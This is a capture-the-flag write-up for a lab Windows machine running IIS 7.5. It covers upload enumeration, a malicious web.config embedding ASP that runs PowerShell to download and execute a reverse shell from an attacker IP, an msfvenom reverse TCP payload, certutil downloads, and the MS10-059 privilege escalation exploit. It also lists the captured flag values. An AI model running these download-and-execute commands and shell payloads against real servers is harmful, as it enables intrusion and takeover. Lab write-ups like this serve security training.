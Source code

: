 # Bounty

IP: `10.10.10.93`

## Enumerattion

Only port 80 is open according to nmap. It is running on mirosoft IIS 7.5.

There's also an interesting file at the path `http://10.10.10.93/transfer.aspx` where we can upload files.

Trying to upload a random `.txt` file didn't work however, so it seems like the options are rather limited.

Trying out a few file formats, we find that uploading files with an extension of `.jpg` is allowed.

And with gobuster, we see that the path `http://10.10.10.93/uploadedfiles/` is where our uploaded files will be at.

Our first image path is `http://10.10.10.93/uploadedfiles/482732.jpg` and it returns our image.

interestingly enough, after a few minutes the file is garbled up and unviewable. This might be something that the garbage collection for the web app is cleaning up files.

Additionally, we can also upload `.config` files, so we can upload something like `web.config` and make it run `asp` code for us.

So we use the following web.config code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set objShell = CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c powershell -c IEX (New-Object Net.WebClient).downloadstring('http://10.10.14.27/mini-reverse.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

while serving a powerscript reverse shell file on 80 and a listerner on 443 and we get back a reverse shell as `bounty\merlin`

user.txt: `e29ad89891462e0b09741e3082f44a2f`

## Foothold

We upload a shell to `C:\Users\merlin\Desktop` and execute that to get another shell this time with more output

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=5555 -f exe > shell.exe
```

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/shell.exe" C:\Users\merlin\Desktop\shell.exe
```

## Priv esc

We see that ms10-059 is available.

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/MS10-059.exe" C:\Users\merlin\Desktop\MS10-059.exe
```

```sh
C:\Users\merlin\Desktop>MS10-059.exe 10.10.14.27 6666
```

and listening on port `6666`, we get back a root shell.

root.txt: `c837f7b699feef5475a0c079f9d4f5ea`
